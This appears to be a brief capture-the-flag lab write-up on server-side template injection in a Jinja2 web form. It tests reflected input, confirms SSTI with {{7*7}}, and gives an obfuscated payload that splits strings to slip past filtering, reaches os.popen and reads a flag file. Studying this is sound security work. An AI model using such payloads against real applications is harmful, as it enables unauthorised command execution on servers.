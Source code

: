 
A template engine enables you to use static template files in your application. At runtime, the template engine replaces variables in a template file with actual values, and transforms the template into an HTML file sent to the client. Although the templates were deployed statically, the advent of highly configurable service (SaaS) led several template libraries to be exposed directly on the internet.




### Lab (pentathon '25)

Capturing the request and sending it, we can see that the `name` field is reflected back to us. Before trying `sqli` we input characters like `<>` to see if we can do `xss` payload. We also try `{{}}` to check for `ssti` (template injection).
Sending `{{7*7}}` we get back `49`. So the site is vulnerable to `SSTI`.

> After the server blocking some request and either giving us error or not allowed we get some progress using `{{request}}`.

Payload used for SSTI 
```
name={% set b = request.application[['__glo','bals__'] | join][['__buil','tins__'] | join] %}
{% set i = b[['__impo','rt__'] | join] %}
{% set o = i(['o','s'] | join) %}
{% set p = o[['po','pen'] | join] %}
{% set cmd = ['c','a','t',' ','fl','ag','.txt'] | join %}
{{p(cmd).read()}}
&email=test%40mail.com&message=Test
```



### References

Jinja2 - [Server Side Template Injection with Jinja2 for you now](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)